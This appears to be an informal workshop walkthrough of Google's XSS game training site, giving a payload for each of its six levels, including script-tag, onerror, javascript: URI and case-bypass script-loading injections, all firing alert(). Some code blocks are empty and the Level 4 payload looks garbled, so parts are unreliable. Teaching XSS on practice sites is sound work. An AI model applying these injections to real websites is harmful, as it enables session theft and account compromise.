

# Workshop

Today we are playing games!!

Go to https://xss-game.appspot.com/

## Level 1: Hello world of XSS



This is the first level of the Google XSS game on each level you can view the level’s source code or view hints


For this level there is no input sanitisation in the query, anything that is entered into the query box is understood as part of the page and executed. 

```markdown
<script>alert(1)</script>
```

This would be a suitable payload for the first level.

## Level 2: Persistence is key


For this level you will need to check the source code


The section “containerEl.innerHTML += html;” adds the element ‘innerHTML’ to the sanitisation list required for inputting text into the field. InnerHTML is a very vulnerable method of validating user input but it does remove our use of the <script> tag

```markdown

```

This payload would be suitable as .innerHTML does not validate  tags. This payload works by pointing the handler to an image with source ‘x’ (which doesn’t exist) when an error is thrown the ‘onerror’ function will execute the ‘alert()’ function.

## Level 3: That Sinking Feeling

This level is interesting because there are no obvious user input fields.


You will quickly find that the only field you can alter is the URL of the page

- View the source code to find how the URL is generated


The line html += “”; is responsible for handling the URL. so the aim is to get the script to execute an alert after accepting a number in the URL

```markdown
https://xss-game.appspot.com/level3/frame#1'onerror="alert()"
```

That way the code will be 

Thus the handler will try to find an image with an invalid name and throw an error, executing the alert.

## Level 4: Context Matters

In this level you are given a timer application. The biggest clue is the name of the level, it is beneficial to observe what gets executed on the page when the timer is set.


Look at the source code to see how the page handles a request


The ‘ onload=”startTimer(’{{timer}}’);” is the section of code that initiates the timing sequence but it doesn’t show how the user input is passed into it.

Start a timer regularly and view the page source while its occurring. 


This is how your browser is handling the request of the timer. the ‘onload’ section shows what is going on behind the scenes. We need to find a way to fuck with this line.

```markdown
3'**alert());//
```

[check why this works]?????

## Level 5: Breaking Protocol

This level is one of the easiest but i think it’s intended to make the player use some sort of lateral thinking or something.


Click the sign up button (that’s all the lateral thinking done)


The URL changes and is looking really submissive and vulnerable.

Check the source code if you want

```markdown
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert();
```

change the URL to this. Now instead of the URL confirming you email address it will send an alert.

Press ‘Go’ before pressing ‘Next’ then the changes to the URL will be saved

## Level 6: Follow the Rabbit

For this level you could need to host your own javascript script but all the tools you need to hack Java are available on your browser if you know how to use them.


In the target code you can see that the website is blocking http connections

As indicated by the hint Google has a repository of callback functions 


it looks like this and I have absolutely no idea what it is or what it means. If I get chance tomorrow (Wednesday) I might amend this section to explain further, but if I don’t, please note I still don’t know what it is and I probably spent my time doing something far less productive


What we do know is that the website takes whatever follows the ‘#’ and searches it as a filename

```markdown
https://xss-game.appspot.com/level6/frame#HTTPS://google.com/jsapi?callback=alert
```

This calls an alert function from that big google page because the URL input is only sanitised for lowercase ‘https’ 👍🏿

Leave the quiz a nice review and then start with the next web-based XSS game:

[https://alf.nu/alert1?world=alert&level=alert0](https://alf.nu/alert1?world=alert&level=alert0)